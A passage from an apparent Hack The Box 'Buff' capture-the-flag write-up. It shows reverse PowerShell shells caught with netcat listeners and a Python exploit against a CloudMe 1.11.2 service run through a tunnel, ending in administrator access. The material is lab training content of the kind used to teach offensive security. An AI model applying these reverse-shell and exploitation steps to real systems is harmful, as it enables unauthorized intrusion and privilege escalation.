 ```bash
```
On the new connection:
```bash
kali@kali:~/Desktop$ nc -lvp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.10.198 50388
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload> cd C:\Users\shaun\Downloads
cd C:\Users\shaun\Downloads
ls
PS C:\Users\shaun\Downloads> ls


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe                                                      


PS C:\Users\shaun\Downloads> ./CloudMe_1112.exe
./CloudMe_1112.exe
```
I can just run the app over and over from here, no worries.
With the tunnel to the service establised, I add the payload into the script and run it...
```bash
kali@kali:~/Desktop/htb/buff$ python cloudme_exploit.py 
Payload sent to 127.0.0.1:8888
```
Catch the shell on the other netcat listener I have open.
```bash
kali@kali:~/Desktop/htb/buff$ nc -lvnp 4444                                                                                                                                                                 
Listening on 0.0.0.0 4444                                                                                                                                                                                   
Connection received on 10.10.10.198 50606                                                                                                                                                                   
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
buff\administrator
```
